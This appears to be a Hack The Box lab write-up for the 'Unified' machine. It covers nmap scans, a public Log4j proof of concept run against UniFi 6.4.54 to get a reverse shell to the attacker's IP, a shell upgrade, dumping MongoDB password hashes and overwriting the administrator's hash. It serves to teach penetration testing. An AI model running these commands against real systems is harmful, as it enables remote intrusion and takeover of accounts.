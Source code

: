 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Unified

## Summary

Part of Starting Point's Tier 2 boxes, [Unified](https://app.hackthebox.com/starting-point) revolves around exploiting the **Log4j vulnerability**. Securing the initial foothold entails identifying the application's version through meticulous **enumeration of the web server**. Subsequently, **leveraging a readily available** [**PoC**](#user-content-fn-1)[^1] allows us to gain access to the application using the `administrator` account. Further reconnaissance within the site exposes **plaintext SSH credentials**, allowing us to root the box.

<table><thead><tr><th width="88" align="right">Step</th><th width="249">Action</th><th width="124">Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>Web server enumeration</td><td>Browser</td><td>Web app's version</td></tr><tr><td align="right">2</td><td>Researching</td><td>Browser</td><td>Log4j vulnerability &#x26; <a data-footnote-ref href="#user-content-fn-1">PoC</a></td></tr><tr><td align="right">3</td><td>Using <a data-footnote-ref href="#user-content-fn-1">PoC</a></td><td><a data-footnote-ref href="#user-content-fn-1">PoC</a></td><td>Foothold</td></tr><tr><td align="right">4</td><td>Updating admin's password</td><td><a href="https://linux.die.net/man/1/mongo">mongo</a></td><td>Web application credentials</td></tr><tr><td align="right">5</td><td>Web server enumeration</td><td>Browser</td><td>Privilege escalation</td></tr></tbody></table>

## Recon

### Port Scan

As always, let's start with a port scan. For efficiency, we will run a fast (`-T5 --min-rate 10000`) all-ports (`-p-`) scan first to find out which of them are open (`-open`), and then we will do a version scanning (`-sV`) as well as use Nmap's default scripts (`-sC`) against open ports only.

{% code overflow="wrap" %}
```bash
# Scanning all ports at maximum speed
$ sudo nmap 10.129.158.126 -T5 --min-rate 10000 -open -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 17:37 BST
Nmap scan report for 10.129.158.126
Host is up (0.038s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
8443/tcp open  https-alt
8843/tcp open  unknown
8880/tcp open  cddbp-alt

Nmap done: 1 IP address (1 host up) scanned in 8.10 seconds
# Version-scanning the specified ports at max speed plus using default scripts
$ sudo nmap 10.129.158.126 -T5 --min-rate 10000 -p 22,6789,8080,8443,8843,8880 -sC -sV
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
<SNIP>
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-title: Did not follow redirect to https://10.129.158.126:8443/manage
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
<SNIP>
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
8843/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
<SNIP>
8880/tcp open  cddbp-alt?
```
{% endcode %}

Based on Nmap's output, we can note some things down:

* There is an SSH port open (`22`) which might represent the way to access the box.
* There is an HTTP port (`8080`) which redirects to `https://10.129.158.126:8443/manage` which seems interesting.
* The port `6789` seems to be used for an application called [UniFi Mobile Speed Test](https://help.ui.com/hc/en-us/articles/218506997-UniFi-Network-Required-Ports-Reference).
* The last port (`8880`) is related with a protocol called [CDDB](https://linux.die.net/man/3/cddb) and it's also related with the [UniFi Network](https://help.ui.com/hc/en-us/articles/218506997-UniFi-Network-Required-Ports-Reference).

### Web Server Enumeration

By visiting the redirected URL we found above, we land on the UniFi login page which also include its version: `6.4.54` (Figure 1).

<figure><img src="../../.gitbook/assets/unified_home.png" alt=""><figcaption><p>Figure 1: The UniFi login page along with its version.</p></figcaption></figure>

## Foothold

### Log4j

Since we know the application's version, we can check if any known vulnerability exists. Doing that, reveals the [Log4j vulnerability](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) (Figure 2.1) as well as a [GitHub repository ](https://github.com/puzzlepeaches/Log4jUnifi)with a PoC[^1] (Figure 2.2).

<figure><img src="../../.gitbook/assets/unified_google.png" alt=""><figcaption><p>Figure 2: Rsearching known vulnerabities for <code>UniFi 6.4.54</code>.</p></figcaption></figure>

The [SprocketSecurity article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) includes both an [exploitation](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#exploitation) and a [post-exploitation](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitation) route, but let's first try the PoC as it involves less steps. By opening a listener (Figure 3.1) and following the PoC's execution instructions (Figure 3.2), we indeed achieve RCE[^2] and secure our foothold (Figure 3.3).

```bash
# executing the PoC
sudo python3 exploit.py -u https://10.129.96.149:8443 -i 10.10.14.147 -p 1337
```

<figure><img src="../../.gitbook/assets/unified_rce.png" alt=""><figcaption><p>Figure 3: Establishing our initial foothold.</p></figcaption></figure>

### Shell Upgrade

Before searching for the flag, we can first upgrade our shell (Figure 4).

{% hint style="info" %}
Check more about shell upgrades [here](broken-reference).
{% endhint %}

```bash
# Checking if script is available
which script
# Spawning the bash shell
script /dev/null -c /bin/bash
# Backgrounding the shell (CTRL+Z)
^Z
# Checking the configurations of our local shell
echo $TERM && stty size
# Disabling echo, passing I/O straight through, and foregrounding the shell
stty raw -echo; fg
# Setting terminals dimensions
stty rows 51 cols 209
# Exproting terminal
export TERM=xterm
```

<figure><img src="../../.gitbook/assets/unified_shell_upg.png" alt=""><figcaption><p>Figure 4: Upgrading our shell with <code>script</code>.</p></figcaption></figure>

We can now read the `user.txt` flag within the home directory of the sole user of the box.

```bash
# Checking users
unifi@unified:/unifi/data$ ls /home
michael
# Reading the user flag
unifi@unified:/unifi/data$ cat /home/michael/user.txt
6ce<REDACTED>127
```

## Privilege Escalation

### Mongodb Exploitation

The [post-exploitation part](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitationcrackinghashes) of the article refers to a mongodb DBMS[^3] from which we can dump password hashes from. Let's check if we can do that (Figure 5).

```bash
# Dumping the password hashes
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

<figure><img src="../../.gitbook/assets/unified_dump.png" alt=""><figcaption><p>Figure 5: Dumping hashes from the mongodb database.</p></figcaption></figure>

Next, according to the [article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitationshadowadmin), we can encrypt a new password (Figure 6.1) and use it to change the `administrator`'s password (Figure 6.2), so we can then use it to log in into the UniFi portal as a privileged user (Figure 7).

{% code overflow="wrap" %}
```bash
# Encrypting the new password
mkpasswd -m sha-512 Password123!
# Changing the administrator's password
mongo --port 27117 ace --eval 'db.admin.update({"_id" : ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$Zpy/bK4oaMXbjkwG$gPVsT76.dDkLpzgvEZm39v2kvkqfytwFzuzOHOW5MmkgFtN9UXDbg0FZ58hckZEq2g83mE9bWNqXDi6itVvd91"}})'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/unified_change_pass.png" alt=""><figcaption><p>Figure 6: Changing the <code>administrator</code>'s password.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/unified_admin_login.png" alt=""><figcaption><p>Figure 7: Logging in as <code>administrator</code>.</p></figcaption></figure>

### UniFi Enumeration

By enumerating the UniFi portal, we can find the `root`'s plaintext password (Figure 8) which we can use right away and read the `root.txt` flag 🚩 (Figure 9).

<figure><img src="../../.gitbook/assets/unified_root_pass.png" alt=""><figcaption><p>Figure 8: Enumerating the <code>root</code>'s SSH password.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/unified_root.png" alt=""><figcaption><p>Figure 9: Reading the root flag.</p></figcaption></figure>

[^1]: Proof of Concept

[^2]: Remote Command Execution

[^3]: Database Management System
